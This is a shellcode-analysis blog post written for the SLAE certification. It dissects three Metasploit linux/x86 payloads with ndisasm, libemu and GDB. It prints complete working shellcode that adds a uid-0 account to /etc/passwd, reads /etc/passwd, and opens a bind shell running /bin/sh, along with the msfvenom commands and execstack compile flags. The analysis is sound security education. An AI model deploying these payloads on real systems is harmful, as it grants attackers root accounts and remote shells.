

# Exercise 5

## Assignment #5

- Take up at leat 3 shellcode samples created using Msfvenom for linux/x86

- Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode

- Present your analysis


## List of payloads

Payloads studied:

- Payload [*linux/x86/adduser*](https://github.com/ricardojoserf/slae/tree/master/ex5/1_adduser)

- Payload [*linux/x86/read_file*](https://github.com/ricardojoserf/slae/tree/master/ex5/2_readfile)

- Payload [*linux/x86/shell_bind_tcp_random_port*](https://github.com/ricardojoserf/slae/tree/master/ex5/3_bindrandomport)


## 5.1 Payload *linux/x86/adduser*


### Check options
```
msfvenom -p linux/x86/adduser --list-options
```


There are 3 basic options:

- PASS: The password for this user (Required). Default: metasploit
- SHELL: The shell for this user. Default: /bin/sh
- USER: The username to create (Required). Default: metasploit

For this study we will use the three basic options:

```
msfvenom -p linux/x86/adduser USER=ricardo PASS=sectube SHELL=/bin/bash --platform=Linux -a x86 -f c
```


### One-liner for getting shellcode 

The fastest way to get the shellcode in my case was using two pipes, one with 'sed' and a second one with 'paste' command:

```
msfvenom -p linux/x86/adduser --platform=Linux -a x86 -f c USER=ricardo PASS=sectube SHELL=/bin/bash | grep '"' | sed -e 's/\"//g' | paste -sd "" - | tr ";" " "
```

Using it, we get the shellcode we will use for the study of the payload:


### Libemu

Libemu does not show any output in this case:


When the PNG picture is generated it is empty.


### Ndisasm

With ndisasm it is possible to get the .nasm code using:

```
msfvenom -p linux/x86/adduser --platform=Linux -a x86 -f raw USER=ricardo PASS=sectube SHELL=/bin/bash | ndisasm -u -
```


Or a little quicker:

```
echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x27\x00\x00\x00\x72\x69\x63\x61\x72\x64\x6f\x3a\x41\x7a\x76\x44\x72\x2e\x72\x57\x33\x54\x34\x69\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -
```


Using awk it is possible to get only the part we want and create a .nasm file:

```
echo -e "section .text\nglobal _start \n_start:" > 1.nasm

echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x27\x00\x00\x00\x72\x69\x63\x61\x72\x64\x6f\x3a\x41\x7a\x76\x44\x72\x2e\x72\x57\x33\x54\x34\x69\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u - | awk '{$2=$2};1' - | cut -d " " -f 3-10 >> 1.nasm
```


It seems ok:


With a little bit of indentation, the nasm file is created and ready to be studied. 


### Studying the syscalls

Given we have the nasm code, the first thing to do will be studying the different syscalls. We can do this checking the lines containing "int 0x80" in the code. 

In this case we have four syscalls:


The most important in this case is checking the value of the register EAX to check what type of syscall is being used. The two first syscalls seem to use the values 0x46 and 0x5 (we will check later using GDB):


The two last syscalls seem to use the values 0x4 and 0x1:


After checking the */usr/include/i386-linux-gnu/asm/unistd_32.h* file, the syscalls seem to be:

- Syscall 1 (Value 0x46 or 70 in decimal): setreuid() - *It sets real and effective user IDs of the calling process*.

- Syscall 2 (Value 0x5 or 5 in decimal): open() - *It opens the file specified by pathname*.

- Syscall 3 (Value 0x4 or 4 in decimal): write()

- Syscall 4 (Value 0x1 or 1 in decimal): exit() - *It causes normal process termination and the value of status & 0377 is returned to the parent*


### Strings study

Before opening GDB, it may be a good idea to some hexadecimal values which could be strings used by the program.

There are some values used in the second syscall:


And one in the third


For this i wrote a simple script to translate the hexadecimal values to ascii:


The values used in the second syscall are '/etc//passwd', while the value in the third does not seem to be an ascii value:


### Generating the executable

Next, the executable gets generated using the *shellcode.c* script:


It is compiled:

```
gcc -fno-stack-protector -z execstack shellcode.c -o 1
```

An executable named "1" gets generated. It is possible to execute it and check the "/etc/passwd" file to check if the user has been correctly generated.


In this case, it was executed twice so there are two lines at the bottom of the file.


Also note that if we study the binary there are interesting strings we can find (this one will appear again later):


### Study with GDB

First, the executable is attached in quiet mode:

```
gdb -q 1
```
Then, we set the disassembly flavor and jump into the "main" function (the one from shellcode.c):


Now, we must jump to the shellcode, so we set a breakpoint in the last 'call eax' instruction visible in the previous screenshot (the previous call instructions show the length of the shellcode).

We continue for one instruction using 'stepi' and the 'disassemble' command shows we have reached the shellcode:


Now, all the shellcode with the four syscalls can be read:


### Syscall 1

The first syscall is the one in 0x00404047, so we create a breakpoint in there and see the value of the registers:


The EAX value is 70 so in fact it is a setreuid() syscall. The value of EBX and ECX registers is 0, so the the reak and effective user ID of the process will be 0:


### Syscall 2

Next syscall is the one in 0x00404063, Before continuing a quick "hook-stop" is defined:


Then, the next breakpoint is reached. 


The values are:

- EAX = 5 => Syscall is open()

- EBX = -1073745172 => The stack address, where the three hexadecimal values are stored (which we saw before are translated to '/etc//paswwd')

- ECX = 1025 => The "flags" value. These value represents the permissions used in this operation (in this case the file is opened with read and write permissions).

For understanding every value, the man page is read:


### Syscall 3

Next, in the third syscall there is a "call" instruction to a function which we could not obtain using ndisasm:


Before continuing to check the values in the next syscall, we must find out what this function does. We write the instructions from that point and realise the instructions are different to what gdb shows at first:


I set a break point at 0x404093 and see the next instructions:


We continue debugging and get to 0x00404099, the third syscall. At this point we are aware we "jumped" from 0x00404066 to 0x404092 and it seems we did nothing with those instructions. 

Well, we did! This is the string we found before using the *strings* command, containing the line we will add to /etc/passwd. After the "call", this string address is stored in the stack. Then, the instruction in 0x404092 pops its value and now ecx has that address.


We set a breakpoint in 0x00404099 and check the registers values:


These are:

- EAX = 4 => Syscall is write()

- EBX = 3 => File descriptor

- ECX = 4210795 => Address of the characters to write

- EDX = 39 => Number of bytes to write 

So, after this the file gets a new line.


### Syscall 4

Finally, the fourth syscall is the EXIT call, which ends the program:


### Update/correct NASM file

Now we can update the nasm code deleting the unused opcodes and adding the string we found.


Finally we can compile the nasm file and check it works correctly:


## 5.2 Payload *linux/x86/read_file*

### Check options
```
msfvenom -p linux/x86/read_file --list-options
```


There are 3 basic options:

- FD: The file descriptor to write output to (Required). Default: 1
- PATH: The file path to read (Required)


For this study we will use the basic options:

```
msfvenom -p linux/x86/read_file FD=1 PATH=/etc/passwd --platform=Linux -a x86 -f c
```


### One-liner for getting shellcode 

The fastest way to get the shellcode in my case was using two pipes, one with 'sed' and a second one with 'paste' command:

```
msfvenom -p linux/x86/read_file --platform=Linux -a x86 -f c FD=1 PATH=/etc/passwd | grep '"' | sed -e 's/\"//g' | paste -sd "" - | tr ";" " "
```

Using it, we get the shellcode we will use for the study of the payload:


### Libemu

Libemu does not show any output in this case:


When the PNG picture is generated it is empty.


### Ndisasm

With ndisasm it is possible to get the .nasm code using:

```
msfvenom -p linux/x86/read_file --platform=Linux -a x86 -f raw FD=1 PATH=/etc/passwd | ndisasm -u -
```


Or a little quicker:

```
echo -ne "\xeb\x36\xb8\x05\x00\x00\x00\x5b\x31\xc9\xcd\x80\x89\xc3\xb8\x03\x00\x00\x00\x89\xe7\x89\xf9\xba\x00\x10\x00\x00\xcd\x80\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xc5\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x00" | ndisasm -u -
```


Using awk it is possible to get only the part we want and create a .nasm file:

```
echo -e "section .text\nglobal _start \n_start:" > 2.nasm

echo -ne "\xeb\x36\xb8\x05\x00\x00\x00\x5b\x31\xc9\xcd\x80\x89\xc3\xb8\x03\x00\x00\x00\x89\xe7\x89\xf9\xba\x00\x10\x00\x00\xcd\x80\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xc5\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x00" | ndisasm -u - | awk '{$2=$2};1' - | cut -d " " -f 3-10 >> 2.nasm
```


With a little bit of indentation, the nasm file is created and ready to be studied. 


### Studying the syscalls

Given we have the nasm code, the first thing to do will be studying the different syscalls. We can do this checking the lines containing "int 0x80" in the code. 

In this case we have four syscalls:


After checking the */usr/include/i386-linux-gnu/asm/unistd_32.h* file, the syscalls seem to be:

- Syscall 1 (Value 0x5 or 5 in decimal): open() - *It opens the file specified by pathname*.

- Syscall 2 (Value 0x3 or 3 in decimal): read() - *It attempts  to  read up to count bytes from file descriptor fd into the buffer starting at buf.*

- Syscall 3 (Value 0x4 or 4 in decimal): write()

- Syscall 4 (Value 0x1 or 1 in decimal): exit() - *It causes normal process termination and the value of status & 0377 is returned to the parent*


### Generating the executable

Next, the executable gets generated using the *shellcode.c* script:


It is compiled:

```
gcc -fno-stack-protector -z execstack shellcode.c -o 2
```

An executable named "2" gets generated. It is possible to execute it and check the output:


Also note that if we study the binary there are interesting strings we can find (this one will appear again later):


### Study with GDB

First, the executable is attached in quiet mode:

```
gdb -q 2
```
Then, we set the disassembly flavor, define the "hook-stop" function, and jump into the "main" function (the one from shellcode.c):


Now, we must jump to the shellcode, so we set a breakpoint in the last 'call eax' instruction visible in the previous screenshot (the previous call instructions show the length of the shellcode).

We continue for one instruction using 'stepi' and the 'disassemble' command shows we have reached the shellcode. All the shellcode with the four syscalls can be read:


### JMP-CALL-POP detected

In 0x00404040 there is a jump (JMP) to 0x404078 which immediately calls 0x00404042. This is obviously a JMP-CALL-POP so we will read the values after 0x404078, which contain "/etc/passwd"


Now, we will set a breakpoint before every syscall: 0x0040404a, 0x0040405c, 0x0040406a and 0x00404076.


### Syscall 1

We reach the first syscall:


We read the man page of open:


And then the values are:

- EAX = 5 => Syscall is open()

- EBX = 4210813 => The address of "/etc/passwd" string


- ECX = 0 => These are the flags values. In this case it is only needed the read permission.


### Syscall 2

We reach the second syscall:


We read the man page of read:


And then the values are:

- EAX = 3 => Syscall is read()

- EBX = 3 => File descriptor to use

- ECX = -1073745156 => Contains the value of the file read (the content of the stack)

- EDX = 4096 => 4096 bytes will be read


### Syscall 3

We reach the third syscall:


We read the man page of write in here: https://linux.die.net/man/2/write

And then the values are:

- EAX = 4 => Syscall is write()

- EBX = 1 => File descriptor is 1 (STDIN)

- ECX = -1073745156 => Address of the characters to write

- EDX = -14 => In the address 0x0040405e, EAX value is copied to EDX because read() on success returns the number of bytes read. In this case, the read() syscall returns -14. 


### Syscall 4

We reach the fourth syscall:


We read the man page of exit:


And then the values are:

- EAX = 1 => Syscall is exit()

- EBX = 0 => Status 0 will represent the program finished correctly in this case.


### Update/correct NASM file

Now we can update the nasm code deleting the unused opcodes and adding the string we found.


Finally we can compile the nasm file and check it works correctly:


## 5.3 Payload *linux/x86/shell_bind_tcp_random_port*

### Check options
```
msfvenom -p linux/x86/shell_bind_tcp_random_port --list-options
```


There is not any basic option in this case.

For this study we will use the basic command:

```
msfvenom -p linux/x86/shell_bind_tcp_random_port --platform=Linux -a x86 -f c
```

### One-liner for getting shellcode 

The fastest way to get the shellcode in my case was using two pipes, one with 'sed' and a second one with 'paste' command:

```
msfvenom -p linux/x86/shell_bind_tcp_random_port --platform=Linux -a x86 -f c | grep '"' | sed -e 's/\"//g' | paste -sd "" -
```

Using it, we get the shellcode we will use for the study of the payload:


### Ndisasm

Before studying the syscalls, the .nasm code is extracted using Ndisasm:

```
msfvenom -p linux/x86/shell_bind_tcp_random_port --platform=Linux -a x86 -f c | ndisasm -u -
```


Or a little quicker:

```
echo -ne "\x31\xdb\xf7\xe3\xb0\x66\x43\x52\x53\x6a\x02\x89\xe1\xcd\x80\x52\x50\x89\xe1\xb0\x66\xb3\x04\xcd\x80\xb0\x66\x43\xcd\x80\x59\x93\x6a\x3f\x58\xcd\x80\x49\x79\xf8\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x41\xcd\x80" | ndisasm -u -
```


Using awk it is possible to get only the part we want and create a .nasm file:

```
echo -e "section .text\nglobal _start \n_start:" > 3.nasm

echo -ne "\x31\xdb\xf7\xe3\xb0\x66\x43\x52\x53\x6a\x02\x89\xe1\xcd\x80\x52\x50\x89\xe1\xb0\x66\xb3\x04\xcd\x80\xb0\x66\x43\xcd\x80\x59\x93\x6a\x3f\x58\xcd\x80\x49\x79\xf8\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x41\xcd\x80" | ndisasm -u - | awk '{$2=$2};1' - | cut -d " " -f 3-10 >> 3.nasm
```


### Libemu

In this case Libemu works correctly:

```
echo -ne "\x31\xdb\xf7\xe3\xb0\x66\x43\x52\x53\x6a\x02\x89\xe1\xcd\x80\x52\x50\x89\xe1\xb0\x66\xb3\x04\xcd\x80\xb0\x66\x43\xcd\x80\x59\x93\x6a\x3f\x58\xcd\x80\x49\x79\xf8\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x41\xcd\x80" |  ./sctest -vvv -Ss 10000 -G randbind.dot
```


We get the next output:

```
int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int listen (
     int s = 14;
     int backlog = 0;
) =  0;
int accept (
     int sockfd = 14;
     sockaddr_in * addr = 0x00000000 => 
         none;
     int addrlen = 0x00000002 => 
         none;
) =  19;
int dup2 (
     int oldfd = 19;
     int newfd = 14;
) =  14;
int dup2 (
     int oldfd = 19;
     int newfd = 13;
) =  13;
int dup2 (
     int oldfd = 19;
     int newfd = 12;
) =  12;
int dup2 (
     int oldfd = 19;
     int newfd = 11;
) =  11;
int dup2 (
     int oldfd = 19;
     int newfd = 10;
) =  10;
int dup2 (
     int oldfd = 19;
     int newfd = 9;
) =  9;
int dup2 (
     int oldfd = 19;
     int newfd = 8;
) =  8;
int dup2 (
     int oldfd = 19;
     int newfd = 7;
) =  7;
int dup2 (
     int oldfd = 19;
     int newfd = 6;
) =  6;
int dup2 (
     int oldfd = 19;
     int newfd = 5;
) =  5;
int dup2 (
     int oldfd = 19;
     int newfd = 4;
) =  4;
int dup2 (
     int oldfd = 19;
     int newfd = 3;
) =  3;
int dup2 (
     int oldfd = 19;
     int newfd = 2;
) =  2;
int dup2 (
     int oldfd = 19;
     int newfd = 1;
) =  1;
int dup2 (
     int oldfd = 19;
     int newfd = 0;
) =  0;
int execve (
     const char * dateiname = 0x00416fb6 => 
           = "/bin//sh";
     const char * argv[] = [
           = 0xffffffff => 
             none;
     ];
     const char * envp[] = 0x00000000 => 
         none;
) =  0;
```

Finally the PNG picture is created using:

```
dot randbind.dot -T png -o randbind.png
```


### Studying the syscalls

Given we have the nasm code, the first thing to do will be studying the different syscalls. We can do this checking the lines containing "int 0x80" in the code. 

In this case we have five syscalls:


After checking the */usr/include/i386-linux-gnu/asm/unistd_32.h* file, the syscalls seem different to the ones we got using Libemu:

Libeu states the list of syscalls is:

- Syscall 1: socket() - *It creates  an  endpoint  for communication and returns a file descriptor that refers to that endpoint.*

- Syscall 2: listen() - *It marks the socket referred to by sockfd as a passive socket, that is, as a socket that will be used to accept incoming connection  requests using accept(2).*

- Syscall 3: accept() - *It extracts the first connection request on the queue of pending connections for the listening socket, sockfd, creates a new connected socket, and returns a new file descriptor referring to that socket.*

- Syscall 4: dup2() - *It system call creates a copy of the file descriptor oldfd, using the lowest-numbered unused file descriptor for the new descriptor.*

- Syscall 5: execve() - *It executes  the  program pointed to by filename*.


The nasm file states the list of syscalls is:

- Syscall 1 (Value 0x66 or 102 in decimal): socketcall() - *It is a common kernel entry point for the socket system calls*

- Syscall 2 (Value 0x66 or 102 in decimal): socketcall() - *It is a common kernel entry point for the socket system calls*

- Syscall 3 (Value 0x66 or 102 in decimal): socketcall() - *It is a common kernel entry point for the socket system calls*

- Syscall 4 (Value 03f or 63 in decimal): dup2() - *It system call creates a copy of the file descriptor oldfd, using the lowest-numbered unused file descriptor for the new descriptor.*

- Syscall 5 (Value 0xb or 11 in decimal): execve() - *It executes  the  program pointed to by filename*.

So Libemu interprets which is the specific socket call in the first three syscalls.


### Generating the executable

In this third case, it is possible to compile the NASM code and generate a working executable, but it crashes after connecting to the port:


So again, itt is necessary to use the *shellcode.c* file:


It is compiled:

```
gcc -fno-stack-protector -z execstack shellcode.c -o 3
```

An executable named "3" gets generated. It is possible to execute it and check that it works correctly:


Also it is possible to look for interesting strings like this one:


### Study with GDB

We attach the executable in quiet mode, set the disassembly flavor, define the "hook-stop" function, run the program and stop in the main function:


Now, we must jump to the shellcode, so we set a breakpoint in the last 'call eax' instruction visible in the previous screenshot (the previous call instructions show the length of the shellcode).

We continue for one instruction using 'stepi' and the 'disassemble' command shows we have reached the shellcode. All the shellcode with the five syscalls can be read:


We set breakpoint in every one of them:


#### Syscall 1

We reach the first syscall:


We read the man page of socketcall:


And then the values are:

- EAX = 102 => Syscall is socketcall()

- EBX = 1 => Option "SOCKET"

- ECX = -1073745200 => The stack address containing the pushed values "0x2" (*domain* is AF_INET), "0x1" (*type* is SOCK_STREAM) and "0x0" (*protocol* is not set):




#### Syscall 2

We reach the second syscall:


We read the man page of socketcall:


And then the values are:

- EAX = 102 => Syscall is socketcall()

- EBX = 4 => Option "LISTEN"

- ECX = -1073745208 => The stack address containing the values "0x3" (*s*, the file descriptor) and "0x0" (*backlog*, which defines the maximum length to which the queue of pending connections for sockfd may grow.)


#### Syscall 3

We reach the third syscall:


We read the man page of socketcall:


And then the values are:

- EAX = 102 => Syscall is socketcall()

- EBX = 5 => Option "ACCEPT"

- ECX = -1073745208 => The stack address containing the values "0x3" (*socketfd*, the file descriptor), "0X0" (*addr*, so the address is '0.0.0.0') and "0x2" (*addrlen*, so the length of the address is 32 bits)


Now, it is necessary to check which is the port opened and connect to it:


#### Syscall 4

Then, we reach the fourth syscall:


We read the man page of dup2:


And then the values are:

- EAX = 63 => Syscall is dup2()

- EBX = 4 => Old file descriptor

- ECX = 3 => New file descriptor

Later the breakpoint is reached again only changing the ECX value to 2, 1 and then 0. 


#### Syscall 5

We reach the fifth syscall:


We read the man page of execve:


And then the values are:

- EAX = 11 => Syscall is execve()

- EBX = -1073745212 => The stack address containing the values "0xbfffff20" and "0xb7fd70bb" (*dateiname* or the /bin/sh address)

- ECX = 0 => The value of *argv[]*, which is none in this case.

- EDX = 0 => Tha value of *envp[]*, which is none in this case.


### Update/correct NASM file

Now we can update the nasm code adding the necessary jump:


Finally we can compile the nasm file and check it works correctly:


---------------------------------------------------


## Note

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: https://www.pentesteracademy.com/course?id=3

Student ID: SLAE - 1433


